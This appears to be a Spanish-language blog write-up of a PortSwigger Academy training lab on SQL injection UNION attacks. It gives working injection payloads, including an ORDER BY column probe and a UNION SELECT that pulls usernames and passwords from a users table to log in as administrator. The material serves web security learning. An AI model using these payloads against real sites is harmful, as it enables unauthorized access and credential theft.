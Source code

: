 +++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 5"
date = "2021-11-04"
description = "Lab: SQL injection UNION attack, retrieving data from other tables"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Lab: SQL injection UNION attack, retrieving data from other tables

En este <cite>laboratorio[^1]</cite>la finalidad es poder extraer los datos de una tabla, las columnas son `username` y `password` de la tabla `users`. La idea es hacer uso del metodo union en sql para poder extraer esos datos aparte de los que ya trae el sistema. La consulta comun para recuperar estos datos seria:

```sql
select username, password from users;
```

## Reconocimiento

Ahora toca usar el metodo union para poder recuperar esos datos y tratar de inyectar ese comando en la consulta primaria para recuperar los usuarios y contrasenas de la tala de usuarios.

### Payloads

#### Recuperar columnas

Recuperamos las columnas inyectando la siguiente consulta:

```
https://xxxxxxxxxxxx.web-security-academy.net/filter?category=PetsPets' order by 4--
```

#### Recuperar tipo de datos

Ahora queremos saber que tipos de datos acceptan, inyectando algunas string en los dos vemos que no hay problema al hacerlo.

```sql
Pets' union select 'test','test'--
```

![Tipo de Datos aceptados](strings.png)

#### Recuperar datos de usuarios

Ahra ya podemos tomar los datos de la tabla de usuarios que se nos pide, para eso inyectaremos la siguiente consulta:

```sql
Pets' union select username,password from users--
```
![Usuarios y Contrasenas de la tabla users](extraido.png)

Ahora que ya nos hicimos con los datos del administrador, podemos iniciar sesion para que el sistema ya nos tome como resuelto el lab.

![Laboratorio resuelto](resuelto.png)


[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)